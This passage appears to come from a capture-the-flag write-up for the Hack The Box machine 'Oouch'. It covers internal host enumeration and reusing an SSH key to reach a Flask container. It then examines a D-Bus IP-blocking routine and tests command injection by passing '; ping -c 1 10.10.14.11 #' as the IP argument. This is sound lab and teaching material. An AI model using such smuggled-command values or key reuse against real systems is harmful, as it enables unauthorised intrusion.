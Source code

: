 Summary of the found hosts:
- 172.18.0.1 --> FTP (Port 21)
- 172.18.0.2 --> ?
- 172.18.0.3 --> ?
- 172.18.0.4 --> Django (Port 8000)
- 172.18.0.5 --> Flask (Port 5000)

As SSH responds back on _172.18.0.5_, maybe the SSH key from before will work to get there:
```
ssh 172.18.0.5
```

It works and gives SSH access to the **Flask Consumer** container.

### Enumerating Flask Container

The code for the Flask application is in _/code_ and after going through the files, the file _/code/oouch/templates/hacker.html_ can be found, which is responsible for showing a blocking message:
```
(...)
Dear hacker, did we not already told you, that this site is constructed following the highest security standards
Well, we blocked your IP address for about one minute and hope that you learn something from that.
(...)
```

Searching where _hacker.html_ is referenced, to analyze the code:
```
grep /code -R hacker.html . 2>/dev/null
```

Only the file _oouch/routes.py_ references _hacker.html_ and uses the **dbus Python module** to implement the blocking:
```python
# (...)
# First apply our primitive xss filter
if primitive_xss.search(form.textfield.data):
  bus = dbus.SystemBus()
  block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
  block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

  client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
  response = block_iface.Block(client_ip)
  bus.close()
  return render_template('hacker.html', title='Hacker')
# (...)
```

By running the code line by line in the **Python commandline**, command execution can be tested:
```
>>> import dbus
>>> bus = dbus.SystemBus()
>>> block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
>>> block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

>>> runme = '; ping -c 1 10.10.14.11 #'
>>> response = block_iface.Block(runme)
```
